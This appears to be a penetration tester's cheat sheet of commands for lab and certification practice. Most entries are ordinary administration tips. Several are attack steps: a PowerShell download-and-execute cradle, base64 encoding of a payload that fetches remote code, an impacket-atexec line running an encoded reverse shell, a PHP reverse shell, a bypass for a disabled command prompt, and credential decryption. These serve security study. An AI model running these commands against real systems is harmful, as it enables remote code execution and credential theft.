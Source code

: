 # Useful Commands

<details>

<summary>Enable Shared Folder on Kali VM</summary>

```bash
sudo vmhgfs-fuse .host:/ /mnt/hgfs/ -o allow_other -o uid=1000
```

</details>

<details>

<summary>Powershell Download Cradle (Download &#x26; Execute)</summary>

```powershell
iex (New-Object Net.Webclient).DownloadString("http://IP/File")
```

</details>

<details>

<summary>SSH Legacy Connect</summary>

```bash
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss -p 22000 j0hn@10.11.1.252
```

</details>

<details>

<summary>Running cmd.exe as admin user</summary>

```bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

OR

* Win-R --> `cmd.exe` --> Ctrl-Shift-Enter

</details>

<details>

<summary>SSH</summary>

### SSH with specified private key

```bash
chmod 400 /home/kali/.ssh/id_rsa
ssh barry@10.11.67.208 -i /home/kali/.ssh/id_rsa
```

### Don't save SSH hostkey into known hosts

```bash
ssh student@192.168.131.52 -p 2222 -o "UserKnownHostsFile=/dev/null"
```

### Starts SSH server

```bash
systemctl start ssh
```

### To troubleshoot SSH configurations

```bash
/usr/sbin/sshd -T
```

### To show SSH config

```bash
vim /etc/ssh/sshd_config
```

</details>

<details>

<summary>Linux Netw Config</summary>

```bash
ifconfig eth1 192.168.200.10 netmask 255.255.255.0
ip route add 192.168.200.0/24 dev eth1
route add default gw 192.168.100.104 eth1
```

</details>

<details>

<summary>Search for exploits</summary>

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

```bash
searchsploit -m 42341
```

</details>

<details>

<summary>Vim</summary>

### Replace all occurrences from first line to last line.

```bash
:0,$s/search_term/replace_term/g
```

It has the syntax `:start_line_number,end_line_number s/<search_term>/<replace_term>/g`

### Match everything until colon (useful for cleaning hashes)

```regex
^[^:]*:
```

### Fix Indentation Error (python script)

```bash
gg=G
```

</details>

<details>

<summary>cURL POST Request</summary>

```bash
curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
```

</details>

<details>

<summary>Install Perl Packages</summary>

```bash
cpan install Package::Name
```

</details>

<details>

<summary>Copy File Contents To Clipboard</summary>

```bash
xclip -selection c /usr/share/webshells/php/php-reverse-shell.php
```

</details>

<details>

<summary>Terminator Shortcuts</summary>

* Ctrl-Shift-E: Split the view vertically.

- Ctrl-Shift-O: Split the view horizontally.

* Ctrl-Shift-P: Focus on the previous view.

- Ctrl-Shift-N: Focus on the next view.

* Ctrl-D: Close the view where the focus is on.

- Ctrl-Shift-Q: Exit terminator.

</details>

<details>

<summary>Command Prompt Disabled By Administrator</summary>

* Upload [http://didierstevens.com/files/software/cmd-dll\_v0\_0\_4.zip](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)
* Run `cmd.exe` locally

</details>

<details>

<summary>Modifying Windows PATH</summary>

```bash
set PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;%PATH%
```

</details>

<details>

<summary>Remove Windows Directory Recursively</summary>

```bash
rmdir /s /q c:\temp
```

</details>

<details>

<summary>CMD Windows Recursive Directory Listing</summary>

```bash
dir /s /b
```

</details>

<details>

<summary>Error Connecting via xfreerdp</summary>

```bash
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

</details>

<details>

<summary>Saving Terminal Commands</summary>

```bash
script <filename>
exit
```

</details>

<details>

<summary>Snipping Tool (Ctrl-Win-S) Pic Location</summary>

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\Microsoft.ScreenSketch_8wekyb3d8bbwe\TempState
```

</details>

<details>

<summary>Fixing gcc: error trying to exec ‘cc1’: execvp: No such file or directory</summary>

```bash
carlos@malbec:/home/carlos$ gcc root.c -o libmalbec.so -shared -fPIC -w
gcc: error trying to exec ‘cc1’: execvp: No such file or directory

# PATH variable has not been exported. 
# To fix this, we'll export this variable.
carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"

carlos@malbec:/home/carlos$ export PATH

carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"
```

</details>

<details>

<summary>Can't recognize 'whoami' as an internal or external command, or batch script.</summary>

```bash
Z:\home\carlos>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
# --> use linux x86 payload instead!!!
```

</details>

<details>

<summary>Sudo (ALL) NOPASSWD: ALL to root account</summary>

```bash
sudo bash -i
```

</details>

<details>

<summary>List al the available MSFVenom payloads</summary>

```bash
msfvenom --help-formats
```

</details>

<details>

<summary>scp: Received message too long ||   scp: Ensure the remote shell produces no output for non-interactive sessions.</summary>

Means victim is running legacy SCP server --> req us to use legacy SCP protocol

* `-O` switch

```bash
scp -O -i id_rsa authorized_keys max@192.168.199.100:/home/max/.ssh/authorized_keys
```

</details>

<details>

<summary>B64 Encoding Using Powershell</summary>

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

</details>

<details>

<summary>Print Specified lines</summary>

```bash
# Single line 43
sed -n 43p shellcoderunner.ps1 

# Lines 45-52
sed -n 45,52p shellcode_runner_template.cs
```

</details>

<details>

<summary>Running CMD as Admin CMD</summary>

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

</details>

<details>

<summary>Change Linux Owner</summary>

Change to Kali, from root

```bash
chown -hR kali .
```

</details>

<details>

<summary>John Pot File </summary>

```bash
~/.john/john.pot
```

</details>

<details>

<summary>Difference in TTL for Ping</summary>

```
TTL: 63 --> Linux
TTL: 127 --> Windows
```

</details>

<details>

<summary>NT Auth Vs NT System</summary>

NT Auth --> computer object part of AD --> mimikatz will obtain domain creds

NT System (Local Admin):

* If on Domain Controller --> will obtain domain creds
* If on non-DC --> will only obtain local creds

</details>

<details>

<summary>nxcdb (NetExec Database)</summary>

```bash
nxcdb
workspace create <name>
proto smb
creds
```

```bash
workspace list
```

</details>

<details>

<summary>Fixing KRB_AP_ERR_SKEW(Clock skew too great) error</summary>

```
sudo rdate -n 10.10.11.147
```

</details>

<details>

<summary>Fixing KDC_ERR_WRONG_REALM error</summary>

```bash
# WRONG (USING IP ADDR) FOR KERBEROS AUTH:
nxc smb 10.10.11.168 -u miscsvc -p ScrambledEggs9900 -k --shares

# RIGHT (USING FQDN)
nxc smb dc1.scrm.local -u miscsvc -p ScrambledEggs9900 -k --shares
```

In /etc/hosts (must be like this):

```
10.10.11.168	dc1.scrm.local scrm.local
```

</details>

<details>

<summary>Filter to get only unique entries in a file</summary>

```bash
sort hashes | uniq > uniq_hashes
```

</details>

<details>

<summary>Decrypting PSCredentials</summary>

* If the current user encrypted the file, we can decrypt it:

```powershell
$EncString = "<encrypted string>"
$SecureString = ConvertTo-SecureString $EncString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
# Store the decrypted passsword to `$password` variable.
$password = echo $Credential.GetNetworkCredential().password
# View the password
$password
```

</details>

<details>

<summary>PSExec Being Blocked? (Use impacket-atexec)</summary>

```bash
# Upgrade shell to meterpreter/simple ps revshell
impacket-atexec administrator:'<password>'@10.10.158.54 "powershell -e SQBFAF…"
```

</details>
